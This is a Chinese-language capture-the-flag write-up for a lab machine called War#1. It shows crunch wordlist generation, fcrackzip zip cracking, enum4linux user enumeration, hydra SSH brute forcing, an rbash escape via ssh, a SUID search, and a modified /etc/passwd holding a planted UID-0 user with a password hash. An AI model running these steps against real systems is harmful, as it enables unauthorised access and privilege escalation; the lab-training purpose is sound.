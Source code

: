 ```yaml
---
layout: gears
title: War#1
date: 2020-12-30 19:31:43
tags:
---
```


## 0x00 信息收集

## 0x01 smb攻击

crunch 生成密码的一个软件 `@%%,`这个是给的密码参数。



```
crunch 4 4 -t @%%, -o words
最小4位，最长 4位
```

`fcrackzip -D -p  words  -u msg_horda.zip`   

![image-20201230195717931](https://i.loli.net/2020/12/30/wCIymWxXGkng4Bj.png)

```
enum4linux  -r 192.168.43.200 |grep Local
```

枚举用户

hydra -L 指定用户文件 -p P 大写是文件，小写是字符

`hydra -L user.txt -p 3_d4y ssh://192.168.43.200` 爆破ssh

```
echo $SHELL 查看当前的shell rbash
```

![image-20201230200130354](https://i.loli.net/2020/12/30/DLdlAG6k1ycK9Ix.png)

**开始读rbash进行绕过**

```
ssh marcus@192.168.43.200 -t "bash -noprofile"  
```

好，绕过完毕。

## 0x03 权限提升

```
find / type f -perm -u=s 2>/dev/null 把错误信息重定向到/dev/null
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:marcus:/home/marcus:/bin/rbash
dem0:$1$dem0$LWnFTKnLwV4gGwR8yOaTr1:0:0:root:/root:/bin/bash
```

